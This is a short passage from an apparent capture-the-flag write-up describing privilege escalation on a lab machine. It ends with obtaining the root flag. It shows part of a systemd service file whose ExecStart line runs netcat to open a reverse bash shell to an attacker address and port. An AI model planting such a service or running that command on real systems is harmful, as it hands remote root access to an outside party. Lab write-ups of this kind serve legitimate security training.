      ExecStart=/bin/nc -e /bin/bash 10.10.14.15 9004
    
      [Install]
      WantedBy=multi-user.target
    
    

Register the new service and then we can start it: 

And that's it ! we have been able to print out the root flag.

## **Conclusion**

Here we can see the progress graph :

